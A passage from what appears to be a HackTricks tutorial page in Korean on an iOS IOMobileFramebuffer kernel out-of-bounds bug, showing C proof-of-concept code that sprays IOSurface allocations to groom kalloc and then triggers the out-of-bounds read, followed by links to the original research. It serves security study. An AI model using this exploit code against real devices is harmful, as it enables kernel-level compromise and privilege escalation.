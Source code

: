 ```c
printf("[-] do_spray: failed to allocate new iosurface_uc\n");
return false;
}

// Create many IOSurfaces and use set_value / value spray helpers
// (Brandon Azad-style) to fan out allocations in kalloc.  ⭐
int *surface_ids = (int*)malloc(SURFACES_COUNT * sizeof(int));
for (size_t i = 0; i < SURFACES_COUNT; ++i) {
surface_ids[i] = create_surface(iosurface_uc);       // s_create_surface
if (surface_ids[i] <= 0) {
return false;
}

// Spray small values repeatedly: tends to allocate/fill predictable
// kalloc regions near where the IOMFB table OOB will read from.
// The “with_gc” flavor forces periodic GC to keep memory moving/packed.
if (IOSurface_spray_with_gc(iosurface_uc, surface_ids[i],
20, 200,   // rounds, per-round items
data, sizeof(data),
NULL) == false) {
printf("iosurface spray failed\n");
return false;
}
}
return true;
}

int main(void) {
// Ensure we can talk to IOSurfaceRoot (some helpers depend on it).
io_connect_t iosurface_uc = get_iosurface_root_uc();
if (iosurface_uc == MACH_PORT_NULL) {
return 0;
}

printf("[*] do spray\n");
if (do_spray() == false) {
printf("[-] shape failed, abort\n");
return 1;
}
printf("[*] spray success\n");

// Trigger the OOB read. The magic constant chooses a pointer-slot
// far beyond the legit array (offset is in bytes; index = offset/8).
// If the spray worked, this returns a **Mach port name** (handle) to one
// of your sprayed IOSurfaces; otherwise it may crash.
printf("[*] trigger\n");
trigger_oob(0x1200000 + 0x1048);
return 0;
}
```
## 참고자료
- [Saar Amar의 원문](https://saaramar.github.io/IOMobileFrameBuffer_LPE_POC/)
- [Exploit PoC code](https://github.com/saaramar/IOMobileFrameBuffer_LPE_POC)
- [jsherman212의 연구](https://jsherman212.github.io/2021/11/28/popping_ios14_with_iomfb.html?utm_source=chatgpt.com)

{{#include ../../banners/hacktricks-training.md}}
